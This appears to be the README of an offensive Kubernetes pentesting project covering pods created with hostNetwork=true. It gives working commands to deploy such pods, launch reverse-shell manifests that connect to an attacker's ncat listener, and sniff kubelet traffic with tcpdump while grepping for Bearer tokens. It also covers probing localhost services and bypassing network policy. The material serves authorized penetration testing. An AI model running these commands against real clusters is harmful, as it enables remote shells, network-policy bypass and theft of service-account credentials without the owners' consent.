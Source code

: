 # Bad Pod #6: hostNetwork
![](../../.github/images/Pod6.jpg)

If you only have `hostNetwork=true`, you can't get privileged code execution on the host directly, but if your cross your fingers you might still find a path to cluster admin. There are two potential escalation paths: 
* **Sniff traffic** - You can use `tcpdump` to sniff unencrypted traffic on any interface on the host. You might get lucky and find `service account` tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or that are otherwise blocked by network polices. These services might turn into a fruitful privilege escalation path.
* **Bypass network policy** - If a restrictive network policy is applied to the namespace, deploying a pod with `hostNetwork=true` allows you to bypass the restrictions because you are bound to the host's network interfaces, and not the pod. 
## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post Exploitation](#post-exploitation)
  - [Install tcpdump and sniff traffic](#install-tcpdump-and-sniff-traffic)
  - [Investigate local services](#investigate-local-services)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)


# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl exec -it hostnetwork-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostnetwork-exec-[RESOURCE_TYPE]      
kubectl exec -it hostnetwork-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostnetwork-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete pod hostnetwork-exec-pod
kubectl delete cronjob hostnetwork-exec-cronjob
```


# Post Exploitation 

## Install tcpdump and sniff traffic 
*If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump*

```bash
apt update && apt -y install tcpdump net-tools netcat
```
You now have a few options for next steps: 

**See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs**
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

**If the read port is open, run `tcpdump`, recording the output to a file for a few minutes**

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```

**Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`** 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt. If you are really lucky, that token might be associated with a service account in `kube-system`.


## Investigate local services
```bash
curl https://localhost:1234/metrics
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
